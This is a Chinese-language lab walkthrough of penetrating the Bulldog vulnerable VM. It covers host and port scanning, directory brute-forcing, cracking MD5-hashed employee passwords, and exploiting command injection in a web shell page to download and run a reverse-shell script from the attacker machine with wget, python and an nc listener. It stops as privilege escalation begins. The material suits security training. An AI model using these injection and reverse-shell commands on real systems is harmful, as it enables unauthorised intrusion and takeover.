

# Bulldog网站渗透

@[toc]
## 1.渗透思路

进行信息收集，根据开放的端口以及服务，寻找可行的渗透方法

1. 在未知目标主机的情况下，使用`netdiscover`主机发现获得主机IP地址
2. 得到主机的IP地址后，使用`masscan`进行快速的端口扫面
3. 根据扫描到的开放端口，使用`nmap`进行端口服务以及系统扫描
4. 获得端口以及服务信息后，使用`dirb`行网站目录的扫描，尝试对扫描出的网页进行登陆，寻找有价值的信息
5. 扫描网站的指纹信息，使用`whatweb`扫描识别web软件、后端服务器、编程语言

接下来是根据具体情况作出的渗透判断

**对端口扫描后**

* 如果发现开放了22端口，且启用了ssh，这时候可以尝试使用`metasploit farmework`的ssh_login模块，对ssh的账号进行暴力破解
* 如果发现开放了139和445端口，开启了smbd共享服务，可以使用`enum4linux`，枚举主机的samben服务，查找可用连接的用户名和密码，再使用`mount`挂载的方式连接web服务器，在web服务器中文件中找有用的信息，比如用户名和密码

**对网页目录扫描后**

* 尝试访问网页目录，除了收集有用的信息，也要留心可能存在的sql注入点，命令执行点，文件上传点，文件包含点，必要时可以对页面进行元素审查来寻找有用的信息

**对网页指纹扫描后**

* 通过对网站web软件、后端服务器、编程语言、框架的类型与版本判断，来推测可能存在的已知漏洞，可以通过复现的方式利用这些漏洞

> 在得到用户名和密码后，注意要进行多次尝试在其他地方登陆，因为有可能使用一套账户密码的情况

## 测试环境

目标靶机：IP地址未知

测试机：IP 192.168.72.129

## 测试步骤


### 1.信息收集

#### 主机发现

使用  ` netdiscover -i eth0 -r 192.168.72.0/24 `  对192.168.72.0网段进行主机发现。==netdiscover： -i 指定网卡 -r 指定网段==

其中，192.168.72.1 、192.168.72.2、192.168.72.254分别为物理机的虚拟网卡和虚拟机网关地址，因此可以发现192.168.72.139是目标靶机地址

> 在使用nmap进行主机发现时，会扫描出本机的IP地址，而netdiscover则不会扫描出本机IP地址 

#### 端口扫描

使用 ` masscan --rate=100000 --ports 0-65535 192.168.72.139 ` 进行端口扫面==masscan --rate=每秒多少个数据包 --ports 端口范围  IP地址/IP地址段== 
>这里使用masscan是因为扫描开放端口速度快，在得到开放端口后需要使用nmap进行进一步扫描。为了防止漏扫，可以用masscan多扫几次。

#### 操作系统扫描

使用 ` nmap -sV -T4 -O -p 23,80,8080 192.168.72.139 ` 进一步扫描操作系统信息

```
-T4		指定扫描过程中使用的时序（分为0-5等级）；
-sV		扫描版本的信息和开启的服务；
-O		扫描操作系统信息
-p		指定端口

也可以选择带-A参数，详细扫描开放端口的具体服务；
```

可以发现192.168.37.141主机开启了23（ssh服务），80（http服务）8080（http）端口；

### 2.漏洞探测

访问目标地址 192.168.72.139

尝试点击 Bulldog Industries  后依然是主页

尝试点击 Public Nitice 跳转到新页面
 从上文发现，该站点曾被攻击过，未发现其他有价值的信息，下面开始使用工具进行查找

#### 网站指纹信息扫描

使用` whatweb http://192.168.72.139 ` 扫描网站信息


* Web指纹扫描用于识别目标所运行的web软件、后端服务器、编程语言等特征，实现对目标的web应用的准确标识。
* 应用名称（版本）、服务器软件（版本）、编程语言（版本）、应用框架（版本）四大特征的识别。

#### 目录扫描

使用 ` dirb http://192.168.37.141 `   扫描网站目录（扫描网站目录，默认使用普通字典 ）

```
dpkg -L dirb 查找字典
dirb http:// <ip> 字典路径（指定字典扫描）

扫描Web目录，可以发现潜在的渗透目标；
发现/admin/auth/group , /admin/auth/user , /admin/login , /dev/shell 等目录；
该工具根据用户提供的字典，对目标网站目录进行暴力猜测。尝试以递归方式进行爆破，以发现更多的路径
```


### 3.信息利用

**使用浏览器登陆扫描网站目录**

`http://192.168.72.139/admin`

发现网站的登录页面

尝试弱口令登录，没有成功

尝试SQL注入，没有成功

这里可以尝试使用暴力破解登录账号和密码

`http://192.168.72.139/dev/`

可以看出该页面是面向bulldog承包商的非公开页面，得到有价值的信息是bulldog曾被haker脏牛提权，php会从服务器上删除，新网站会使用Django语言编写，系统上启用了ssh，还有该网站员工的邮箱地址

点击webshell，进入一个新的页面，但需要认证才能访问

尝试对`http://192.168.72.139/dev/`进行页面的元素审查，在员工的邮箱处发现可疑点

在md5解码网站上进行解密

根据收集到的信息分析可以猜测用户名和密码

username：nick；password：bulldog

usernam：sarah；password：bulldoglover

 **尝试进行登录主页** 

试着尝试使用猜测的密码登陆

都尝试登陆成功，可惜权限比较低

用登陆后的账号访问shell界面，成功访问

因为存在一个命令执行窗口，尝试命令执行漏洞，在指定命令后面连接了一个非指定的linux命令
发现确实存在命令执行漏洞
### 4.漏洞利用

在kali的网页服务的根目录下准备好反弹shell的python脚本

 在Kali上执行`python -m SimpleHTTPServer 80`，开启Web服务

在bulldog网站的shell页面下执行
`pwd|wget http://192.168.72.129/getshell.py`

在kali上输入 `nc -vnlp 1234`监听1234端口，为反弹shell做准备
利用命令执行漏洞，在webshell上执行运行getshell.py程序的命令 `ifconfig|python getshell.py` 

进入kali，发现获得该网站的shell

### 5.权限提升

可以在kali上输入`cat /etc/passwd` 或 利用命令执行漏洞直接查看用户名

进入用户bulldogadmin的家目录下，查看家目录下的文件，发现一个隐藏目录 .hiddenadmindirectory

进入.hiddenadmindirectory，并查看文件
直接cat custompermissionapp会发现乱码，因此使用`strings` 打开。==strings是用来提取和显示非文本文件中的文本字符串==

根据以上信息猜测密码可能是： SUPERultimatePASSWORDyouCANTget 

 用python命令打开一个新的终端，尝试进行提权 